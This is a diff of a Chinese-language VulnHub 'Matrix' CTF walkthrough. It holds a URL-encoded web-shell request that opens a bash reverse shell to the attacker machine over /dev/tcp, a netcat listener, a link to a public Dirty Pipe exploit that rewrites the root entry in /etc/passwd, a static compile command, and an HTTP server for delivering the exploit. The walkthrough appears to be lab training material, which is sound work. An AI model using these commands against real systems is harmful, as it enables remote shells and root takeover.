

Before and after one commit to Dgy0527/ctf, a Markdown page: vulnhub/Matrix.md, 2 parts joined by grey strips. Shown at 82% size. Drawn GitHub-style; pictures changed too: img/image-24.png (added), img/image-25.png (added), img/image-26.png (added); blank space fills up the shorter version.

```diff
--- a/vulnhub/Matrix.md
+++ b/vulnhub/Matrix.md
@@ -52,6 +52,10 @@
 
 ## (3)获取交互式shell
 ## kali :`nc -lvnp 4444`
+### -l(listen) :监听模式;告诉 nc：“不要主动去连别人，留在原地，等着别人来连你
+### -v(Verbose) :详细模式;当有目标连进来时，它会在屏幕上打印出目标的 IP 和端口信息
+### -n(Numeric) :数字格式;告诉 nc：“如果目标传过来一个域名，千万不要去查 DNS。直接用纯 IP 数字，省时间
+### -p(port) :指定你要监听的具体端口号（这里选的是 4444，你也可以换成 5555、8888 等）
 ## 浏览器 :`http://192.168.254.141/shell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.254.129/4444%200%3E%261%22` (bash -c "bash -i >& /dev/tcp/192.168.254.129/4444 0>&1") :URL编码;前面那个IP是靶机IP,后面那个IP是kaliIP
 ### bash -c "..." :告诉系统启动一个Bash进程,并且执行引号里面的字符串作为命令
 ### bash -i :启动一个交互式的bash终端
@@ -65,3 +70,20 @@
 ![alt text](../img/image-23.png)
 
 ## (2)利用Dirty Pipe提权
+## exp(https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit.git ) :这个版本的 EXP 利用 Dirty Pipe 漏洞的原理，是直接把 /etc/passwd 文件里的 root 密码哈希，强行改写成了一个已知的密码（也就是 aaron）
+![alt text](../img/image-24.png)
+
+## 下载到kali中得到exploit.c(源码)、compile.sh(自动编译脚本)
+
+## 将exp里的exploit.c源码静态编译为dp文件(如果报错说找不到静态库，先执行 sudo apt install libc6-dev 安装一下)
+## `gcc -O2 --static -o dp exploit.c`
+### gcc(GNU C Compiler)
+### -O2(Optimization Level 2) :优化级别2
+### --static :静态链接
+### -0(Output) dp :指定输出文件的名字
+![alt text](../img/image-25.png)
+
+## 在kali放置exp的目录开启一个简易的http服务,方便靶机下载exp
+## `python3 -m http.server 8888`
+![alt text](../img/image-26.png)
+
```
Also changed, not shown: other parts of vulnhub/Matrix.md (+20 -2 lines), img/image-27.png (added), img/image-28.png (added).
